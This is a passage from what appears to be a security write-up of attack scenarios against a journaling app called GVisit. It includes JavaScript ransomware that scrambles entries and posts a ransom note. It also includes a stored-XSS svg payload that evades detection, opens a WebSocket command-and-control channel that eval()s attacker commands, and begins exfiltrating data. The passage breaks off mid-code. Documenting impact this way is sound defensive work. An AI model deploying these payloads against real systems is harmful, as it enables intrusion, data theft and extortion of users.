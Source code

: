 ### Step 2: Ransomware Deployment
```javascript
// ransomware.js content:
async function encryptAllData() {
    // Get all journal entries
    const entries = await getAllEntries();
    
    // "Encrypt" them (actually just scramble)
    entries.forEach(entry => {
        entry.content = btoa(entry.content).split('').reverse().join('');
        updateEntry(entry.id, entry.content);
    });
    
    // Leave ransom note
    createEntry({
        title: '🔒 YOUR DATA HAS BEEN ENCRYPTED 🔒',
        content: 'Pay 1 Bitcoin to wallet abc123 for decryption key',
        tags: 'RANSOMWARE,URGENT,DO-NOT-DELETE'
    });
    
    // Lock out the user
    document.body.innerHTML = '<h1>RANSOMWARE - PAY TO UNLOCK</h1>';
}
```

### Step 3: Lateral Movement
```javascript
// Spread to all users who view infected entries
// Each view infects another user
// Exponential spread through organization
```

**Total Impact**:
- All journal data encrypted/lost
- Business operations disrupted
- Potential ransom payment
- Reputation damage
- Legal liability

---

## 🕵️ Attack Scenario 4: The Nation-State Actor

**Target**: Government agency using GVisit

### Step 1: Advanced Persistent Threat (APT)
```javascript
// Sophisticated XSS that hides itself
<svg onload="
// Anti-detection
if (window.location.hostname.includes('security')) return;

// Establish command & control
const c2 = new WebSocket('wss://legitimate-looking-domain.com/chat');

c2.onmessage = (event) => {
    // Execute commands from attacker
    eval(event.data);
};

// Periodic data exfiltration
setInterval(() => {
    // Send all new data since last check
    const newData = getNewEntries();
```